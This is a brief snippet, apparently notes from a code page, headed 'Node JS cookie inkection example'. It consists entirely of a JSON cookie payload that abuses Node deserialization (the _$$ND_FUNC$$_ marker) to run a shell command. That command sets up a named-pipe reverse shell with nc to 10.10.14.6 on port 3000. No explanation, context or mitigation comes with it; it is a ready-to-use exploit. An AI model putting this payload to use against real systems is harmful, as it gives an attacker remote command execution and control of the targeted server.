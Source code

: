 ## Node JS cookie inkection example

```
{"username":"_$$ND_FUNC$$_require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 3000 >/tmp/f', function(error, stdout, stderr) {console.log(stdout) })","country":"Lameville","city":"Lametown","num":"2"}
```